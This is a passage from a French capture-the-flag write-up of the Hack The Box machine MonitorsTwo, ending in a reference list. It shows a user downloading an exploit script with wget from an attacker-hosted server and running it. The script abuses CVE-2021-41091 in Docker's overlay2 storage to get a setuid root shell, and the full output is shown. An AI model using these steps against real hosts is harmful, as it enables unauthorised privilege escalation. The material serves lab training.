 Depuis le terminal de `marcus`:

  ```bash
  # Téléchargement du script
  ┌──(marcus㉿monitorstwo)-[~]
  └─$ wget http://10.10.xx.xx:8000/exp.sh
  --2024-01-25 18:19:47--  http://10.10.xx.xx:8000/exp.sh
  Connecting to 10.10.14.33:8000... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 2446 (2.4K) [text/x-sh]
  Saving to: ‘exp.sh’

  exp.sh                100%[========================>]   2.39K  --.-KB/s    in 0s

  2024-01-25 18:19:47 (356 MB/s) - ‘exp.sh’ saved [2446/2446]
```
```
  # Attribution de la permission d'exécution
  ┌──(marcus㉿monitorstwo)-[~]
  └─$ chmod +x exp.sh
```
```
  # Vérification des permissions

  ┌──(marcus㉿monitorstwo)-[~]
  └─$ ls -l exp.sh
  total 8
  -rwxrwxr-x 1 marcus marcus 2446 Jan 25 18:18 exp.sh
```
```
  # Exécution du script

  ┌──(marcus㉿monitorstwo)-[/var]
  └─$ ./exp.sh
  [!] Vulnerable to CVE-2021-41091
  [!] Now connect to your Docker container that is accessible and obtain root access !
  [>] After gaining root access execute this command (chmod u+s /bin/bash)

  Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
  [!] Available Overlay2 Filesystems:
  /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
  /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

  [!] Iterating over the available Overlay2 filesystems !
  [?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
  [x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

  [?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
  [!] Rooted !
  [>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
  [?] If it didnt spawn a shell go to this path and execute './bin/bash -p'

  [!] Spawning Shell

  bash-5.1# exit
```
  - Direction vers le "Current Vulnerable Path" mentionné ci-dessus


[1]:	https://app.hackthebox.com/machines/MonitorsTwo
[2]:	https://nvd.nist.gov/vuln/detail/CVE-2022-46169
[3]:	https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
[4]:	https://gtfobins.github.io/gtfobins/capsh/#suid
[5]:	https://nvd.nist.gov/vuln/detail/CVE-2021-33033
[6]:	https://wiki.ubuntu.com/FocalFossa/ReleaseNotes
[7]:	https://nvd.nist.gov/vuln/detail/CVE-2020-25706 
[8]:	https://nvd.nist.gov/vuln/detail/CVE-2021-41091
[9]:	https://github.com/UncleJ4ck/CVE-2021-41091
[10]:	https://www.youtube.com/watch?v=dJfbogs8Yz0&t=8s
[11]:	https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/
[12]:	https://www.exploit-db.com/exploits/51166
[13]:	https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/cacti_unauthenticated_cmd_injection.rb#L143
[14]:	https://pento.net/2009/02/27/the-g-modifier-in-the-mysql-command-line-client/
[15]:	https://www.freecodecamp.org/news/where-are-docker-images-stored-docker-container-paths-explained/
[16]:	https://www.gnu.org/software/bash/manual/html_node/The-Set-Builtin.html#:~:text=If%20the%20%2Dp%20option%20is,real%20user%20and%20group%20ids.&text=Enable%20restricted%20shell%20mode.,once%20it%20has%20been%20set
[image-1]: 	img/MonitorsTwo.png
[image-2]:	img/home.png
[image-3]:	img/vuln.png
[image-4]:	img/capsh.png
[image-5]:	img/linuxkernel.png
[image-6]:	img/machine_pwned.png
[image-7]:	img/burp_login_request.png
[image-8]:	img/burp_fatal_error.png
[image-9]:	img/xForwardedFor.png
[image-10]:	img/sleep_attempt.png
[image-11]:	img/payload_pos.png
[image-12]:	img/payload_settings.png
[image-13]:	img/brute_results.png
[image-14]:	img/burp_responseTime.png
[image-15]:	img/proc.png
[image-16]:	img/uptime.png
[image-17]:	img/revshell_payload.png